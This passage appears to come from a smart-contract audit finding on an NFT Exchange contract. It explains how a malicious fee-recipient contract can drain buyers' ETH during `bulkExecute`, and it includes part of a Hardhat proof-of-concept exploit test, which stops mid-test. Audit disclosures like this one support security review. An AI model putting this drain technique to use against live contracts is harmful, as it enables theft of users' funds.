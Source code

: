 `_returnDust`:
https://github.com/code-423n4/2022-11-non-fungible/blob/323b7cbf607425dd81da96c0777c8b12e800305d/contracts/Exchange.sol#L212
```
    function _returnDust() private {
        uint256 _remainingETH = remainingETH;
        assembly {
            if gt(_remainingETH, 0) {
                let callStatus := call(
                    gas(),
                    caller(),
                    selfbalance(),
                    0,
                    0,
                    0,
                    0
                )
            }
        }
    }
```

After the fee recipient drains the rest of the 4 ETH funds of the Exchange contract (the buyers funds). They need to transfer a portion back (0.9 ETH) to the Exchange contract in order for the `_executeFundsTransfer` to not revert and be able to send funds (0.9 ETH) to the seller. This can be done using the `selfdestruct` opcode

After that, the `_execute` function will continue and exit normally.<br>
`bulkExecute` will continue to the next order and call `_execute` which will revert.<br>
Because `bulkExecute` delegatecalls `_execute` and continues even after revert, the function `bulkExecute` will complete its execution without any errors and all the buyers ETH funds will be lost and nothing will be refunded.

### Hardhat Proof of Concept

Add the following test to `execution.test.ts`:
```
describe.only('hack', async () => {
      let executions: any[];
      let value: BigNumber;
      beforeEach(async () => {
        await updateBalances();
        const _executions = [];
        value = BigNumber.from(0);
        // deploy MockFeeReceipient
        let contractFactory = await (hre as any).ethers.getContractFactory(
          "MockFeeReceipient",
          {},
        );
        let contractMockFeeReceipient = await contractFactory.deploy(alice.address,price);
        await contractMockFeeReceipient.deployed();
        //generate alice and bob orders. alice fee recipient is MockFeeReceipient. 10% cut
        tokenId += 1;
        await mockERC721.mint(alice.address, tokenId);
        sell = generateOrder(alice, {
          side: Side.Sell,
          tokenId,
          paymentToken: ZERO_ADDRESS,
          fees: [ 
            {
              rate: 1000,
              recipient: contractMockFeeReceipient.address,
            }
          ],
        });
```